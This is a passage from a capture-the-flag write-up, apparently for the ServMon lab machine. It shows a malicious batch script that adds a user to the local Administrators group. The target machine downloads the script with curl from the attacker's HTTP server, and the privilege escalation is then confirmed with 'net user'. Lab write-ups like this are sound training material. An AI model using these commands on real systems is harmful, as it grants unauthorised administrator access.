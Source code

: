 I realized the **silly** mistake I made in the syntax of the last command of the malicious **.bat** script (the **group name**), so after correcting it and transferring it back to the target machine, I tried to reload the web application to run the query again, but the changes were **not made**. I'd better add a **new malicious script**, save the changes, and reload the application. This time, I can see with `net` that the account has been added to the **administrators group**.

> **Attacker Machine**:

```bash
nvim pwn3d.bat
cat !$
```

> **pwn3d.bat**:

```bat
@echo off
net localgroup "Administrators" oldb0y /add
```

```bash
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
erase pwn3d.bat
curl http://10.10.14.3/pwn3d.bat -o pwn3d.bat

# Control --> Reload
net user oldb0y
# :(

# All back :)
net user oldb0y
# :)
```

<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/servmon_writeup/ServMon_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
